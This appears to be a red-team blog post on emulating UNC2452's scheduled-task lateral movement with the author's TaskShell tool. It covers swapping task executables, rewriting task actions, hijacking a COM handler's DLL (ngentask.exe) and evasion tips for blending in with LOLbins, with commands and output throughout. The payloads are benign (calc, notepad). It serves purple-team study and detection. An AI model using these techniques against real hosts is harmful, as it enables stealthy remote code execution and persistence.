




<!-- MDTOC maxdepth:6 firsth1:1 numbering:0 flatten:0 bullets:1 updateOnSave:1 -->

- [Introduction](#introduction)   
   - [File Replacement](#file-replacement)   
   - [Task Replacement](#task-replacement)   
   - [COM Handlers](#com-handlers)   
   - [More COM?](#more-com)   
   - [Detection](#detection)   
   - [Evasion](#evasion)   
- [References](#references)   

<!-- /MDTOC -->

# Introduction

Reading FireEye's UNC2452 [writeup](https://www.fireeye.com/blog/threat-research/2020/12/evasive-attacker-leverages-solarwinds-supply-chain-compromises-with-sunburst-backdoor.html), I started to think about how to emulate them in purple teaming exercises. Despite the supply-chain bit is still a bit out of my reach, I noticed an interesting lateral movement vector that was used as part of that operation.

Quoting directly FireEye's post (because I am lazy AF):


> Temporary File Replacement and Temporary Task Modification

> The attacker used a temporary file replacement technique to remotely execute utilities: they replaced a legitimate utility with theirs, executed their payload, and then restored the legitimate original file. They similarly manipulated scheduled tasks by updating an existing legitimate task to execute their tools and then returning the scheduled task to its original configuration. They routinely removed their tools, including removing backdoors once legitimate remote access was achieved.

This sounds interesting, and despite this is not a new technique (already implemented within [SharpMove](https://github.com/0xthirteen/SharpMove)) I still wanted to experiment a little bit on it. More specifically, I wanted to expand the detection aspect and hopefully even from a red-teaming tradecraft perspective give a few hints.

While experimenting with this technique, I ended up writing a C# tool for it (C#? I know, it's so 2020, the next release will be entirely written in Nim and [ArnoldC](https://github.com/lhartikk/ArnoldC)) that we will use for the rest of this post.

You can find the source for the TaskShell (very unoriginal name) [here](https://github.com/RiccardoAncarani/TaskShell)

## File Replacement

This one is pretty straightforward, all that is needed is to find a task with an action that launches a program and just swap the target executable with your own.

For example, let's examine this scheduled task associated with FireFox:

```
.\TaskShell.exe -h localhost -s "Firefox"
[+] Authenticating using current user's token

============================
[+] Path: \Mozilla\Firefox Default Browser Agent E7CF176E110C211B
[+] Principal: COMMANDO\riccardo
[+] Action: C:\Program Files (x86)\Mozilla Firefox\default-browser-agent.exe do-task "E7CF176E110C211B"
At 12:56 PM every day
```

It would be pretty trivial to swap `default-browser-agent.exe` with an arbitrary executable, and launch the task again.

Let's quickly experiment that using `calc.exe`:

```
C:\Program Files (x86)\Mozilla Firefox>dir default-browser-agent.exe
 Volume in drive C has no label.
 Volume Serial Number is 62E8-311A

 Directory of C:\Program Files (x86)\Mozilla Firefox

01/09/2021  10:44 AM           625,120 default-browser-agent.exe
               1 File(s)        625,120 bytes
               0 Dir(s)   1,178,636,288 bytes free

COMMANDO Mon 01/25/2021  9:57:07.03
C:\Program Files (x86)\Mozilla Firefox>copy default-browser-agent.exe default-browser-agent.exe.bak
        1 file(s) copied.

COMMANDO Mon 01/25/2021  9:57:21.20
C:\Program Files (x86)\Mozilla Firefox>copy C:\windows\System32\calc.exe  default-browser-agent.exe
Overwrite default-browser-agent.exe? (Yes/No/All): Yes
        1 file(s) copied.

```

Let's execute the task again (`-r` flag):

```
.\TaskShell.exe -h localhost -t "\Mozilla\Firefox Default Browser Agent E7CF176E110C211B" -
r
[+] Authenticating using current user's token

============================
[+] Path: \Mozilla\Firefox Default Browser Agent E7CF176E110C211B
[+] Principal: COMMANDO\riccardo
[+] Action: C:\Program Files (x86)\Mozilla Firefox\default-browser-agent.exe do-task "E7CF176E110C211B"
At 12:56 PM every day
```


From an opsec perspective, this implies that you need to drop an executable into the remote host. This might not be appropriate for every operation (it certainly was for UNC2452, lol). However, one advantage is that the scheduled task will not be modified and therefore the event IDs we will discuss later will not be generated.

## Task Replacement

Scheduled tasks have a set of "actions" associated with them. We can modify the actions associated with a specific task in order to execute arbitrary code (either using an EXE or a LOLbin).

A similar approach was popularised by Mr-Un1k0d3r with his [SCShell](https://github.com/Mr-Un1k0d3r/SCShell). SCShell used the Service Control Manager (SCM) APIs to modify the `binpath` value of a given service.

```
TaskShell.exe -h localhost -t "\Mozilla\Firefox Default Browser Agent E7CF176E110C211B" -r -b notepad.exe
[+] Authenticating using current user's token
[+] Adding custom action to task..
[+] Enabling the task
[+] Authenticating using current user's token

============================
[+] Path: \Mozilla\Firefox Default Browser Agent E7CF176E110C211B
[+] Principal: COMMANDO\riccardo
[+] Action: notepad.exe
At 12:56 PM every day
[+] Action: C:\Program Files (x86)\Mozilla Firefox\default-browser-agent.exe do-task "E7CF176E110C211B"
At 12:56 PM every day


[+] Triggering execution
[+] Cleaning up
```

In case we want a fancy notepad instead of the old-school calc:



The advantage of this technique is that we do not need to drop EXEs on the remote host, but we can rely on other LOLbins to achieve stealthier code execution.


## COM Handlers

Scheduled tasks can do more things that running EXEs. For example, they can instantiate COM objects that implement the `ITask` interface.

The idea here is to identify an executable associated with a COM server that is also vulnerable to DLL hijacking.

In the example here, we see the `NGenTaskLauncher` class that is associated with the `ngentask.exe` binary:




If we try to instantiate it using powershell:

```
[activator]::CreateInstance([type]::GetTypeFromCLSID("(429BC048-379E-45E0-80E4-EB1977941B5C)"))
 ```

We get the following missing DLLs with procmon:



As it is possible to see, `bcrypt.dll` is not in the application's directory.


We can now select a task that is already using a COM handler and tamper it with the following:

```
.\TaskShell.exe -h localhost -t "\Microsoft\Windows\Wininet\CacheTask" -r -c "429BC048-379E-45E0-80E4-EB1977941B5C"
[+] Authenticating using current user's token
[+] Adding custom action to task..
[+] Enabling the task
[+] Authenticating using current user's token

============================
[+] Path: \Microsoft\Windows\Wininet\CacheTask
[+] Principal: BUILTIN\Users
[+] Action:  (429bc048-379e-45e0-80e4-eb1977941b5c)
At log on of any user
[+] Action: Wininet Cache task object (0358b920-0ac7-461f-98f4-58e32cd89148)
At log on of any user


[+] Triggering execution
[+] Cleaning up
```

If we do place a malicious DLL in the appropriate directory (missing DLLs can change from OS version to another) and export the expected functions, we will be able to execute code!

As a demo, I placed a dummy `bcrypt.dll` file within `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\` that simply spawned notepad:


It must be noted that the process `ngentask.exe` will have a short life and therefore to obtain a stable C2 channel you will need to inject your code into another proces.

Additionally, the DLL I chose for this hijack might not work on every OS. As a matter of fact, the same attack did not work in another Windows 10 system 18363. In order to make the attack work in the other system I targeted the `mscoree.dll` and that worked just fine.


## Detection

I would like to talk about the detection aspect of this, but [this blog](https://blog.menasec.net/2019/03/threat-hunting-25-scheduled-tasks-for.html) covers the topic with a level of detail that is just amazing.

## Evasion

From an evasion perspective, we want to blend in as much as possible with what's already happening in the environment. If dropping an EXE and modifying a task is not acceptable for your opsec standard, you might be able to use common LOLbins like `rundll32` and DLL names that do not deviate too much from what's already there.

The first step is always baselining. Using the `TaskShell` program this can be done as follows:



As we can see, we have a lot of possible candidates for rundll targets. I would recommend operators to pick a DLL that is already being used and export the same function that is called by the scheduled task, not necessary but a nice thing to have.

The DLL hijacking approach from the COM handler is stealthier, but requires a bit more work to make it stable.

# References
- [FireEye - Highly Evasive Attacker Leverages SolarWinds Supply Chain to Compromise Multiple Global Victims With SUNBURST Backdoor](https://www.fireeye.com/blog/threat-research/2020/12/evasive-attacker-leverages-solarwinds-supply-chain-compromises-with-sunburst-backdoor.html)
- [Menasec - Threat Hunting #25 - Scheduled Tasks for Persistence and/or Remote Execution ](https://blog.menasec.net/2019/03/threat-hunting-25-scheduled-tasks-for.html)
